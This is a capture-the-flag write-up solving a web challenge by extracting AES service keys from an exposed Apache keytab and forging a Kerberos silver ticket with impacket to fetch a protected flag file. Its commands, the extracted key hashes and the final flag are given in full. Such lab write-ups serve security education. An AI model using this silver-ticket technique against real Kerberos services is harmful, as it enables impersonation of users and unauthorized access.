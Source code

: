 #### Challenge:

Hi Expert,

some remains of a web server were found on `http://78.128.246.143`. Maybe the administrators didn't finish it, maybe it just started to fall apart without maintenance, but it certainly contains interesting information that needs to be obtained.

Good Luck!

---

#### Solution:

The provided site shows 4 files via `apache` directory view interface:

- `flag.txt` - this obviously contains flag and more obviously we are not authorized to simply get it
- `apache2.conf` - interesting thing here is, that it specifies the authorization mechanism to get the `flag.txt`:
    ```text
    <Files "flag.txt">
		AuthType GSSAPI
		AuthName "Designing an Authentication System: a Dialogue in Four Scenes"
		GssapiCredStore keytab:/opt/ctfb4/web/apache2.keytab
		Require user "euripides@SUPERCLIENT.TCC"
	</Files>
    ```
	- this basically tells us that we have to by authenticated as user `euripides@SUPERCLIENT.TCC`
- `apache2.keytab` - This holds some kind of credentials that will probably be useful.
- `ticketer_mit.c` - This file, I guess, was supposed to be some kind of hint, maybe we were supposed to use it or finish it, but after trying for quite a long time, we just gave up on it and only leveraged the comment `create silver ticket from TGS` in the end.

Bit of googling about `apache2.keytab` leads us to [https://github.com/sosdave/KeyTabExtract](https://github.com/sosdave/KeyTabExtract) which gives us:

```bash
wget http://78.128.246.143/apache2.keytab -O ~/Downloads/apache2.keytab
git clone https://github.com/sosdave/KeyTabExtract
python3 KeyTabExtract/keytabextract.py ~/Downloads/apache2.keytab
```

```text
[!] No RC4-HMAC located. Unable to extract NTLM hashes.
[*] AES256-CTS-HMAC-SHA1 key found. Will attempt hash extraction.
[*] AES128-CTS-HMAC-SHA1 hash discovered. Will attempt hash extraction.
[+] Keytab File successfully imported.
        REALM : SUPERCLIENT.TCC
        SERVICE PRINCIPAL : HTTP/ctfb4.tcc
        AES-256 HASH : 16049ef7a077513c1ae0f2e69a1d6c3aff607956c1ff7fff1a092823431da235
        AES-128 HASH : 3746ead7ac5622b631b397f3e949da14
```

After googling for the phrases `silver ticket` and `TGS` from the `ticketer_mit.c`, we realized that this gives us enough information to perform `kerberos silver ticket attack` (using Apache's encryption key) to create `Ticket Granting Service (TGS)` to user `euripides`. Using the `ticketer.py` script from the [impacket](https://github.com/SecureAuthCorp/impacket.git) suite, we create the `TGS` and send the request for the flag via `curl`.


```bash
git clone https://github.com/SecureAuthCorp/impacket.git

python3 ./impacket/examples/ticketer.py -aesKey "3746ead7ac5622b631b397f3e949da14" -domain "SUPERCLIENT.TCC" -domain-sid "1-2-3-4" "euripides" -spn "HTTP/ctfb4.tcc"

export KRB5CCNAME=./euripides.ccache
klist
curl --negotiate -u : "http://78.128.246.143/flag.txt"
```

*Note that for `curl` to use the username and password from the environment you have to specify parameters`"--negotiate -u : "` as per the line in the `curl` manual:*

```text
If you use a Windows SSPI-enabled curl binary and perform Kerberos V5, Negotiate, NTLM or Digest authentication then you can tell curl to select the user name and password from your environment by specifying a single colon with this option: "-u :".
```

---

<details><summary>FLAG:</summary>

```
FLAG{RhXd-vITI-vpXG-zQ3d}
```

</details>
<br/>
